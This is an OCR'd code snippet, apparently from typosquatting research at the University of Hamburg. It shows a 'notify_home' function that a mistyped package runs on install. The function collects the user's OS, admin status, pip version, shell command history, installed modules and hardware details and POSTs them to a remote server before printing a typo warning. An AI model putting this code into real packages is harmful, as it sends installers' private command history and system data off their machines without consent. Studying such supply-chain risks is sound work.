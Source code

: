 
    def notify_home(url, package_name, intended_package_name):
      host_os = platform.platform()
      try:
        admin_rights = bool(os.getuid() == 0)
      except AttributeError:
        try:
          ret = ctypes.windll.shell32.IsUserAnAdmin()
          admin_rights = bool(ret != 0)
        except:
          admin_rights = False

      if os.name != 'nt':
        try:
          pip_version = os.popen('pip --version').read()
        except:
          pip_version = ''
      else:
        pip_version = platform.python_version()

      url_data = {
        'p1': package_name,
        'p2': intended_package_name,
        'p3': 'pip',
        'p4': host_os,
        'p5': admin_rights,
        'p6': pip_version,
      }

      post_data = {
        'p7': get_command_history(),
        'p8': get_all_installed_modules(),
        'p9': get_hardware_info(),
      }

      url_data = urlencode(url_data)
      response = POST(url + url_data, post_data)

      if debug:
        print(response)

      print('')
      print("Warning!!! Maybe you made a typo in your installation\
       command or the module does only exist in the python stdlib?!")
      print("Did you want to install '{}'\
       instead of '{}'??!".format(intended_package_name, package_name))
      print('For more information, please\
       visit http://svs-repo.informatik.uni-hamburg.de/')


    def main():
      if debug:
        notify_home('http://localhost:8000/app/?',
                 'pmba_basic', 'pmba_basic')
      else:
        notify_home('http://svs-repo.informatik.uni-hamburg.de/app/?',
                         'pmba_basic', 'pmba_basic')
